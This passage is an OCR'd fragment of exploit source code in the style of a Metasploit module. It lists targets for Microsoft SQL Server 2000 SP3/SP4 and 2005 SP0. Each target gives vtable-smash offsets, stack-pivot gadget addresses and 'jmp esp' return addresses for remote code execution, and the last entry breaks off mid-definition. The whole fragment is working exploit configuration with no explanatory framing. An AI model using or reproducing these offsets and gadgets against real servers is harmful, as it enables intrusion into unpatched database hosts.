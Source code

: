               [
                # Microsoft SQL Server  2000 - 8.00.760 (Intel X86)
                # Dec 17 2002 14:22:05
                'MSSQL 2000 / MSDE SP3 (8.00.760)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => -13,         # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x38,        # displacement from call [eax+0x38] crash
                  'Writable' => 0x42b6cfe0,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x00ac344e,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x490074,    # not directly used - call [ecx+0x14]
                  'Disp'     => 0x34,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x00454303,  # xchg ecx,esp / add [eax],al / add [edi+0x5e],bl / pop ebx / pop ebp / ret
                  'Popped'   => 0x8,         # byte count popped in above (before ret)
                  'Offset'   => 0x28,        # offset to the new stack!
                  'FixESP'   => 0x00503413,  # advance esp to next ret (add esp,0x20 / ret)
                  'Ret'      => 0x0043fa97   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server  2000 - 8.00.2039 (Intel X86)
                # May  3 2005 23:18:38
                'MSSQL 2000 / MSDE SP4 (8.00.2039)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => -13,         # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x38,        # displacement from call [eax+0x38] crash
                  'Writable' => 0x42b6cfe0,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x0046592e,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x69f5e8,    # not directly used - call [ecx+0x14]
                  'Disp'     => 0x14,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x007b39a8,  # push ecx / pop esp / mov ax,[eax+0x18] / mov [ecx+0x62],ax / pop ebp / ret 0x4
                  'Popped'   => 0x4,         # byte count popped in above (before ret)
                  'Offset'   => 0x20,        # offset to the new stack!
                  'FixESP'   => 0x00b3694d,  # advance esp to next ret (add esp,0x20 / ret)
                  'Ret'      => 0x0047c89d   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86)
                # Oct 14 2005 00:33:37
                'MSSQL 2005 SP0 (9.00.1399.06)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => 63,          # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x10,        # displacement from mov eax,[edx+0x10] / call eax crash
                  'Writable' => 0x53ad5330,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x02201ca8,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x10e860f,   # not directly used - call [ecx+0x14]
                  'Disp'     => 0x50,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x0181c0d4,  # push ecx / pop esp / pop ebp / ret
